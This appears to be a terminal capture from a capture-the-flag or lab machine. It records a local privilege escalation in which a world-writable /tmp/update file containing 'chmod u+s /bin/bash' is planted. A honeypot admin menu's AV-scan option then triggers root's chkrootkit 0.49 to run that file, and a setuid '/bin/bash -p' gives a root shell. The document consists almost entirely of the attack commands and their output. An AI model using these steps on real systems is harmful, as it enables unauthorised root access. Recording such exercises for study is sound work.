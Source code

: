 > [kworker/u2:2-flush-8:0]
< [kworker/u2:2-flush-8:0]
> [kworker/u2:2-events_unbound]


296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo 'chmod u+s /bin/bash' > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod 777 /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ 



296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./process.sh
> /bin/sh /root/chkrootkit-0.49/chkrootkit
< /usr/sbin/CRON -f
< /bin/sh -c /bin/bash /root/script.sh
< /bin/bash /root/script.sh
< /bin/sh /root/chkrootkit-0.49/chkrootkit
< /bin/sh /root/chkrootkit-0.49/chkrootkit
< [kworker/u2:2-events_unbound]
> [kworker/u2:2-flush-8:0]
< [kworker/u2:2-flush-8:0]
> [kworker/u2:2-events_unbound]
< [kworker/u2:2-events_unbound]
> [kworker/u2:2-flush-8:0]
< [kworker/u2:2-flush-8:0]
> [kworker/u2:2-events_unbound]
< [kworker/u2:2-events_unbound]
> [kworker/u2:2-flush-8:0]
< [kworker/u2:2-flush-8:0]
> [kworker/u2:2-events_unbound]


296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# 
